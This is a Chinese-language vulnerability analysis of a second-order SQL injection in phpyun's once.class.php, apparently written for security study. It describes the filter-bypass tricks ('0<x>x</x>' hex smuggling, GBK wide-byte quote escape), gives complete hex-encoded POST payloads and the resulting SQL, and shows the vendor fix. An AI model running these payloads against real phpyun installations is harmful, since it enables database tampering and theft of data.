## phpyun once.class.php二次注入
### 漏洞信息
- 公开时间: 2018/03
- 影响版本: 4.3之前所有的版本
- 利用难度: 2
- 挖掘难度: 5

### 漏洞说明
由于在once.class.php中存在一处逻辑错误，同时在phpyun的全局过滤函数存在绕过的问题，导致存在一处二次注入。这个漏洞的亮点是在于过滤函数的绕过以及二次注入点的发现。

由于注入的位置是需要在wap环境下，所以在测试的时候需要修改自己的ua，伪装成移动端浏览器。但这个也很简单，通过Firefox的插件`Modify Headers`将ua修改为`Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Mobile Safari/537.36`即可。

### 漏洞分析
在分析这个漏洞之前，我们先分析phpyun中的过滤代码。phpyun的过滤代码位于`config/db.safety.php`。我们着重关注的是POST参数的过滤。

POST参数的主要过滤代码如下：
```SQL
quotesGPC();
if (!empty($_POST)) {
    if (!isset($_SESSION)) {
        session_start();
    }
    if ($_SESSION['xsstooken'] != sha1($config['sy_safekey']) || $config['sy_safekey'] == '') {
        foreach ($_POST as $id => $v) {
            if ($id != 'uimage') {
                $str = html_entity_decode($v, ENT_QUOTES);
                $v = common_htmlspecialchars($id, $v, $str, $config);
                safesql($id, $v, "POST", $config);
                $id = sfkeyword($id, $config);
                $v = sfkeyword($v, $config);
            }
            if (trim($id)) {
                $_POST[$id] = $v;
            }
        }
    }
}
```
可以看到，其实过滤函数一共有4个，分别是`quotesGPC()`、`html_entity_decode()`、`common_htmlspecialchars()`、`safesql()`。

#### quotesGPC
```PHP
function quotesGPC() {
    if (!get_magic_quotes_gpc()) {
        $_POST = array_map("addSlash", $_POST);
        $_GET = array_map("addSlash", $_GET);
        $_COOKIE = array_map("addSlash", $_COOKIE);
    }
}

function addSlash($el) {
    if (is_array($el))
        return array_map("addSlash", $el);
    else
        return addslashes($el);
}
``` 
`quotesGPC`是一个常规的`addslashes()`的绕过。

#### html_entity_decode
这个是PHP中自带的用于html编码的函数，主要是防御XSS攻击

#### common_htmlspecialchars
```PHP
function common_htmlspecialchars($key, $str, $str2, $config) {
    if (is_array($str)) {
        foreach ($str as $str_k => $str_v) {
            $str[$str_k] = common_htmlspecialchars($str_k, $str_v, $str2, $config);
        }
    }
    else {
        $str = preg_replace('/([\x00-\x08\x0b-\x0c\x0e-\x19])/', '', $str);
        if (!in_array($key, array('content', 'config', 'group_power', 'description', 'body', 'job_desc', 'eligible', 'other', 'code', 'intro', 'doc', 'traffic', 'media', 'packages', 'booth', 'participate'))) {
            $str = gpc2sql($str, $str2);
            $str = strip_tags($str);
            // other php code
    return $str;
}
```
其中较为关键的是，`$str = preg_replace('/([\x00-\x08\x0b-\x0c\x0e-\x19])/', '', $str);`,但是这种过滤的作用并不很大，高位的十六进制就可以绕过了，如`\xe98ca6`就完全可以绕过。之后是调用了`gpc2sql()`和`strip_tags()`函数。

其中`gpc2sql()`的代码为：
```PHP
function gpc2sql($str, $str2) {
    if (preg_match("/select|insert|update|delete|load_file|outfile/is", $str)) {
        exit(safe_pape());
    }
    if (preg_match("/select|insert|update|delete|load_file|outfile/is", $str2)) {
        exit(safe_pape());
    }
    $arr = array("sleep" => "Ｓleep", " and " => " an d ", " or " => " Ｏr ", "xor" => "xＯr", "%20" => " ", "select" => "Ｓelect", "update" => "Ｕpdate", "count" => "Ｃount", "chr" => "Ｃhr", "truncate" => "Ｔruncate", "union" => "Ｕnion", "delete" => "Ｄelete", "insert" => "Ｉnsert", "\"" => "“", "'" => "“", "--" => "- -", "\(" => "（", "\)" => "）", "00000000" => "OOOOOOOO", "0x" => "Ox");
    foreach ($arr as $key => $v) {
        $str = preg_replace('/' . $key . '/isU', $v, $str);
    }
    return $str;
}
```
其中很为关键的一步是将`0x`变为了`Ox`，但这样是否意味着我们无法注入十六进制的字符串呢？

不要忘记了最后还调用了`strip_tags()`。那么利用`strip_tags()`和`gpc2sql()`就可以完成十六进制的绕过。如下：
```
0<x>x</x>12345
```
通过`0<x>x</x>12345`经过`strip_tags()`和`gpc2sql()`之后变为了`0x12345`,顺利地逃逸出十六进制的代码。

可以通过下图来了解整个过滤流程。



总结一下：
1. `$str = preg_replace('/([\x00-\x08\x0b-\x0c\x0e-\x19])/', '', $str);`只对部分十六进制代码有效
2. 利用`0<x>x</x>`形式就可以绕过`gpc2sql()`和`strip_tags()`过滤。

### 漏洞分析
漏洞文件是位于`app/controller/wap/once.class.php:add_action()`中。下图中展现的就是与漏洞相关的关键代码。


漏洞的关键利用点有两点：
1. `$_POST = yun_iconv('utf-8','gbk',$_POST);`是一个基本的编码转换的函数，通过编码转换，我们就能够多出来一个`\`，转义后面的`'`,这样就能够完成注入的利用条件。
2. `$data['pic']`的取值方法。当存在`pic`参数时则直接插入数据库中。如果不存在`pic`参数时，则从数据库中取值，这样的行为就为二次注入提供了条件。

但是上图中的黄色部分代码(`$arr=$TinyM->GetOncejobOne(array('id'=>$id,'password'=>$password),array('field'=>'pic,id'));`)是存在校验的地方。需要对ID和password进行校验，校验成功之后才会进行下面的update操作。

那么如何通过这个校验呢？我们首先不传入参数id，直接进行操作，此时就会进入`$mess=$TinyM->GetOncejobNum(array('login_ip'=>$ip,'ctime>\''.$start_time.'\''));`和`$nid=$TinyM->AddOncejob($_POST);`，向数据库中插入记录。之后我们传入id，同时输入的密码和之前的保持一致，这样就能够通过`$arr=$TinyM->GetOncejobOne(array('id'=>$id,'password'=>$password),array('field'=>'pic,id'));`的验证了。

下面我们梳理一下整个注入流程。

### 漏洞复现
通过实际的漏洞复现，相信大家会对这个漏洞有一个更加清晰的认识。
#### 正常地发布店铺招聘信息

发布店铺招聘信息的URL为`http://localhost/wap/index.php?c=once&a=add`



程序进入到`$mess=$TinyM->GetOncejobNum(array('login_ip'=>$ip,'ctime>\''.$start_time.'\''));`,进行数据插入操作。



程序成功执行，数据库中插入记录。



#### 插入数据

数据库中已经存在了记录了，那么此时我们就可以手动地传入id值，进入到更新操作。由于本次的更新操作主要是为了向数据库中插入我们预设的`pic`的值，所以此时我们需要手动地设置我们传入的id值为1.

由于我们只能以十六进制的方式进行注入。其中：
1. pic作为注入的payload，我们可以设置为`', qq=version(), email=user() where 1#`。经过十六进制编码之后为`0x272c2071713d76657273696f6e28292c20656d61696c3d757365722829207768657265203123`
2. 我们输入的password为`123456`,经过md5之后存入到数据库的是`e10adc3949ba59abbe56e057f20f883e`。那么经过十六进制编码之后为`0x6531306164633339343962613539616262653536653035376632306638383365`

我们最后需要为address传入的payload是:
```
,pic=0<x>x</x>272c2071713d76657273696f6e28292c20656d61696c3d757365722829207768657265203123,`status`=0,`password`=0<x>x</x>6531306164633339343962613539616262653536653035376632306638383365,`edate`=1526222139 #
```
同时为了逃逸出单引号，我们需要将three_cityid设置为:
```
%E9%8C%A6
```
其中的`0<x>X</x>`前面已经说明了，是为了绕过`gpc2sql()`和`strip_tags()`的过滤。通过将`three_cityid`设置为`%E9%8C%A6`就能够注释掉address中单引号，使address中的payload能够逃逸出来。

最后的payload如下：
```
URL: http://localhost/wap/index.php?c=once&a=add
POST: title=1&companyname=2&linkman=3&phone=15071111111&require=4&salary=&&edate=60&password=123456&checkcode=5902&title=1&companyname=2&linkman=3&phone=15071111111&&salary=&file=undefined&edate=60&password=123456&checkcode=5902&submit=%e5%8f%91%e5%b8%83&address=%2c%70%69%63%3d%30%3c%78%3e%78%3c%2f%78%3e%32%37%32%63%32%30%37%31%37%31%33%64%37%36%36%35%37%32%37%33%36%39%36%66%36%65%32%38%32%39%32%63%32%30%36%35%36%64%36%31%36%39%36%63%33%64%37%35%37%33%36%35%37%32%32%38%32%39%32%30%37%37%36%38%36%35%37%32%36%35%32%30%33%31%32%33%2c%60%73%74%61%74%75%73%60%3d%30%2c%60%70%61%73%73%77%6f%72%64%60%3d%30%3c%78%3e%78%3c%2f%78%3e%36%35%33%31%33%30%36%31%36%34%36%33%33%33%33%39%33%34%33%39%36%32%36%31%33%35%33%39%36%31%36%32%36%32%36%35%33%35%33%36%36%35%33%30%33%35%33%37%36%36%33%32%33%30%36%36%33%38%33%38%33%33%36%35%2c%60%65%64%61%74%65%60%3d%31%35%32%36%32%32%32%31%33%39%20%23&three_cityid=1%E9%8C%A6%5C&id=1
```

可以发现经过编码转换之后，`three_cityid`顺利地多出了一个`\`.



通过设置id和password，也顺利地通过了校验进入到update的操作流程中。



程序执行的SQL语句是：
```SQL
UPDATE `phpyun_once_job` SET `mans`='0',`title`='1',`require`='4',`companyname`='2',`phone`='15071111111',`linkman`='3',`salary`='',`provinceid`='',`cityid`='',`three_cityid`='1�\',`address`=',pic=0x272c2071713d76657273696f6e28292c20656d61696c3d757365722829207768657265203123,`status`=0,`password`=0x6531306164633339343962613539616262653536653035376632306638383365,`edate`=1526222139 #',`status`='0',`password`='e10adc3949ba59abbe56e057f20f883e',`edate`='1526545754',`pic`='0' WHERE 1 and `id`='1'
```
其中的`pic`和`password`都进行了编码，`pic`为`0x272c2071713d76657273696f6e28292c20656d61696c3d757365722829207768657265203123`。最后更新至数据库中的值是`', qq=version(), email=user() where 1#`:



#### 二次注入
既然我们已经将`', qq=version(), email=user() where 1#`插入至数据库中，下一步就是取出这个值再次执行SQL语句。前文就说过，存在如下的代码：
```PHP
if ($_POST['pic']!=''){
    $data['pic']=$_POST['pic'];
}else{
    $data['pic']=$arr['pic'];
}
```
如果POST中存在pic参数，则取参数值；否则从数据库中取值。所以这次我们不设置pic的值，其余的值保持不变(不需要设置`three_cityid`和`address`)。
```
URL: http://localhost/wap/index.php?c=once&a=add
POST: title=1&companyname=2&linkman=3&phone=15071111111&require=4&salary=&&edate=60&password=123456&checkcode=5902&title=1&companyname=2&linkman=3&phone=15071111111&&salary=&file=undefined&edate=60&password=123456&checkcode=5902&submit=%e5%8f%91%e5%b8%83&id=1
```

此次执行的SQL语句是：
```SQL
UPDATE `phpyun_once_job` SET `mans`='0',`title`='1',`require`='4',`companyname`='2',`phone`='15071111111',`linkman`='3',`salary`='',`provinceid`='',`cityid`='',`three_cityid`='',`address`='',`status`='0',`password`='e10adc3949ba59abbe56e057f20f883e',`edate`='1526546437',`pic`='', qq=version(), email=user() where 1#' WHERE 1 and `id`='1'
```
最终数据库中的`qq`和`email`的内容都发生了改变。




#### 内容显示
既然数据已经插入到数据库中，那么就需要将数据库的信息显示出来了。最后我们访问`http://localhost/once/index.php?c=show&id=1`即可显示我们注入出来的信息：




### 修复
在最新版的20180314的版本中已经修复了这个问题。主要改动的地方有：
修改了`once.class.php`中的代码，去掉了`$_POST = yun_iconv('utf-8','gbk',$_POST);`代码。




对`db.safety.php`中的`common_htmlspecialchars()`函数进行了修改。



由原来的`gpc2sql()`、`strip_tags()`修改为了`strip_tags()`、`gpc2sql()`，如此一来我们就无法注入十六进制的字符了。


### 总结
这是一个脑洞大开的二次注入的例子，非常的有意思也很经典。这个漏洞也只有经过实际的调试才能够加深印象。

### 参考链接
[某CMS一个比较有趣的二次注入](https://xianzhi.aliyun.com/forum/topic/2086)


